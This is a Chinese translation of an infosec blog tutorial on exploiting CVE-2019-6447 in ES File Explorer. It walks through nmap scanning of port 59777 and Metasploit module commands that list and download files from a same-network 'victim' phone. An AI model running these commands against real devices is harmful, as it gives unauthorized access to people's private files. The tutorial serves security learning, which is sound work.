








# ES 文件浏览器开放端口漏洞利用

> 原文：<https://infosecwriteups.com/es-file-explorer-open-port-vulnerability-exploitation-a41b328c2d2c?source=collection_archive---------1----------------------->


图像[来源](https://null-byte.wonderhowto.com/how-to/android-for-hackers-scan-websites-for-vulnerabilities-using-android-phone-without-root-0190105/)

ES 文件浏览器(文件管理器)是一个全功能的文件(图像，音乐，电影，文档，应用程序)管理器，既可以本地使用，也可以联网使用！ES File Explorer(文件管理器)在全球拥有超过 5 亿用户，可帮助您高效管理您的 android 手机和文件，并在没有数据成本的情况下共享文件。

2019 年 1 月，一名安全研究人员在 ES 文件浏览器中发布了一个安全漏洞(CVE-2019–6447)。

这适用于版本 4.1.9.7.4。允许同一网络上的攻击者执行应用程序、读取文件和敏感的个人数据。该应用程序在运行时保持 TCP 端口 59777 打开，并通过 http 响应假冒请求。

**要执行此攻击，您需要:**

1.  *Kali Linux 或任何 Linux 发行版*
2.  *Msfconsole*
3.  *目标手机应已安装 ES 文件浏览器版本 4.1.9.7.4*
4.  *攻击者和受害者应该在同一个网络上*
5.  *应用程序也必须运行，以便端口 59777 保持打开*

每次用户启动应用程序时，都会启动一个 HTTP 服务器。该服务器正在本地打开端口 59777:

您可以 nmap 到目标并查看端口是否打开；

```
nmap -p 59777 192.168.1.1
```



图 1

如果你找不到你的 IP 地址，请看上图。

启动 metasploit 框架；

```
msfconsole
```

搜索 es_file 漏洞利用；

```
msf6 > search es_file
```



图 2

选择漏洞利用模块；

```
msf6 > use auxiliary/scanner/http/es_file_explorer_open_port
```

显示选项以检查可用选项；

```
msf6 > show options
```



图 3

您看到远程主机(RHOSTS)没有指定，所以将 RHOSTS 设置为您的目标手机的 IP 地址；

```
msf6 > set RHOSTS 192.168.1.1
```


图 4

现在运行漏洞利用；

```
msf6 > run
```


图 5

您可以查看手机的详细信息。

显示操作以列出所有可用的操作；

```
msf6 > show actions
```



图 6

将动作设置为列出您想要的任何内容，在本例中，我将它设置为“LISTVIDEOS”

```
msf6 > set action LISTVIDEOS
```



图 7

现在我们都准备好了，给运行命令；

```
msf6 > run
```


图 8

你可以看到我手机上列出的所有音频文件。

如果你愿意，我们可以下载任何文件。

您需要将操作设置为 GETFILE

```
msf6 > set action GETFILE
```



图 9

并将 ACTIONITEM 设置为文件名，其中包含您要从上一步中找到的可用列表中下载的路径；

```
msf6 > set ACTIONITEM /pathto/123.mp3
```



图 10

现在运行漏洞利用；

```
msf6 > run
```



就这样，现在你已经成功地从受害者的手机上下载了一个文件！！！。

观看此视频，了解分步指南；

如果你喜欢这篇文章，请给我一两个掌声。

*来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*